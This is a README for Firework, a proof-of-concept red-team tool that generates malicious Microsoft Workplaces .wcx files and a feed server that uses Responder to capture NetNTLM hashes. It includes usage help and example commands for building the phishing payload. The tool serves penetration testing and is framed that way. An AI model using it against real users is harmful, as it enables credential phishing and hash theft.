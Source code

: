 :warning: *NOTE: This tool is no longer under active maintenance.*


# Firework

![alt text](https://img.shields.io/badge/Python-2.7_only-blue.svg "Python 2.7 only")

Firework is a proof of concept tool to interact with Microsoft Workplaces creating valid files required for the provisioning process. The tool also wraps some code from Responder to leverage its ability to capture NetNTLM hashes from a system that provisions a Workplace feed via it.

This tool may be used as part of a penetration test or red team exercise to create a .wcx payload (and associated feed) that if clicked on could be used to:

* Phish for credentials - NetNTLM hashes will be sent if a user enters their credentials (or on older versions of Windows automatically).
* Add items to the Start-Menu - After set-up shortcuts are added to the Start-Menu which launch the served RDP file(s). These entries could potentially be used as part of a wider social engineering campaign.
* Download resources - Resources such as the .rdp files and icon files are downloaded and updated by Windows on a daily basis (if authentication of the feed is disabled or is satisfied).

Read the SpiderLabs blog for a more detailed summary and walk through.

## Installation

* Tested with Python 2.7.x. (Python3 not currently supported, although the main Firework class could be used in Python 3)

```bash
$ pip install -r requirements.txt
```
* The tool serves content over HTTPS and requires a certificate and private key to use in-built web server with NetNTLM capture. Default files: ***cert.crt*** and ***key.pem***

## Usage

```

.-:::::'::::::::::..  .,::::::.::    .   .:::  ...    :::::::..    :::  .   
;;;'''' ;;;;;;;``;;;; ;;;;''''';;,  ;;  ;;;'.;;;;;;;. ;;;;``;;;;   ;;; .;;,.
[[[,,== [[[ [[[,/[[['  [[cccc  '[[, [[, [[',[[     \[[,[[[,/[[['   [[[[[/'  
`$$$"`` $$$ $$$$$$c    $$""""    Y$c$$$c$P $$$,     $$$$$$$$$c    _$$$$,    
 888    888 888b "88bo,888oo,__   "88"888  "888,_ _,88P888b "88bo,"888"88o, 
 "MM,   MMM MMMM   "W" """"YUMMM   "M "M"    "YMMMMMP" MMMM   "W"  MMM "MMP"


usage: firework.py [-h] -c COMPANY -u URL -a APP -e EXT -i ICON [-l LISTEN]
                   [-r RDP] [-d DOMAIN] [-n USERNAME] [-p PASSWORDHASH]
                   [-t CERT] [-k KEY]

WCX workplace tool

optional arguments:
  -h, --help            show this help message and exit
  -c COMPANY, --company COMPANY
                        Company name
  -u URL, --url URL     Feed URL
  -a APP, --app APP     App Name
  -e EXT, --ext EXT     App Extension
  -i ICON, --icon ICON  App Icon
  -l LISTEN, --listen LISTEN
                        TLS Web Server Port
  -r RDP, --rdp RDP     RDP Server
  -d DOMAIN, --domain DOMAIN
                        RDP Domain
  -n USERNAME, --username USERNAME
                        RDP Username
  -p PASSWORD, --password PASSWORD
                        RDP Password
  -t CERT, --cert CERT  SSL cert
  -k KEY, --key KEY     SSL key

```

## Examples

Basic example:

* Organisation Name: EvilCorp
* URL to feed XML (or URL to Firework's in-built server): https://example.org/ - This is where Windows downloads the feed from.
* Application Name: Firework
* File Extension: .fwk
* Icon File: firework.ico

```bash
python ./firework.py -c EvilCorp -u https://example.org/ -a Firework -e .fwk -i ./firework.ico 
```

In built web server will start on port 443 if **cert.crt** and **key.pem** are present in current directory. This will force an NTLM challenge with responder. If these files are not present the tool will write all files to local directory for your own hosting.

If you wish to start the in-built  web server on alternate port use the -l flag as below:

```bash
python ./firework.py -c EvilCorp -u https://example.org/ -a Firework -e .fwk -i ./firework.ico -l 8443
```

You can also add some customisations to the .rdp file that gets served.

* Remote Desktop Server: dc.corp.local
* Domain: corp.local
* Username: admin
* Password Crypt: Encrypted password that gets included in RDP file

Note: Passwords stored in .rdp files are likely ignored in a default config.

```bash
python ./firework.py -c EvilCorp -u https://example.org/ -a Firework -e .fwk -i ./firework.ico -r dc.corp.local -d corp.local -n admin -p <crypt password>
```

## Payload

Having run the tool 'payload.wcx' will be written to current directory. This file is what when clicked on starts the provisioning process.

## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)

## License

Firework

Created by David Middlehurst
Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments

* [Responder by Laurent Gaffie](https://github.com/SpiderLabs/Responder)
* [Firework Icon](https://icons8.com/icon/39296/firework-filled)
